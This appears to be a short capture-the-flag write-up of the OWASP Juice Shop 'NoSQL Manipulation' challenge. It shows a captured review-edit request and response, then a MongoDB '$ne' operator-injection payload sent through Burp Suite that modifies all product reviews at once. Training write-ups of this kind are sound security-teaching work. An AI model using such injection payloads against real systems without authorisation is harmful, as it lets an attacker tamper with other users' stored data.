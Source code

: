 # NoSQL Manipulation

Update multiple product reviews at the same time.

# Tools used

- Browser
- swisskyrepo/PayloadsAllTheThings
- Burpsuite
- Cyberchef

# Solve

First we try manually editing one of the review left by the admin account using the admin account. When we see the action in burpsuite, we see this

```
{"id":"HNbKrzyzRJcE5DYap","message":"test"}
```

and the response

```
{"modified":1,"original":[{"message":"One of my favorites!","author":"admin@juice-sh.op","product":1,"likesCount":0,"likedBy":[],"_id":"HNbKrzyzRJcE5DYap"}],"updated":[{"message":"test","author":"admin@juice-sh.op","product":1,"likesCount":0,"likedBy":[],"_id":"HNbKrzyzRJcE5DYap"}]}
```

![burpsuite](../../../assets/nosql-manipulation-1.png)

we see that the id is unique for each review. An easy way to manipulate this is by using conditionals. If we try to edit a review that has the condition of not equal ($ne) -1 (not probable for an item to have an id less than 1 or 0 so we use -1 just to be safe). So we use this payload in burpsuite

```
{"id":{ "$ne": -1},"message":"requiiem wuzz here"}
```

![burpsuite](../../../assets/nosql-manipulation-2.png)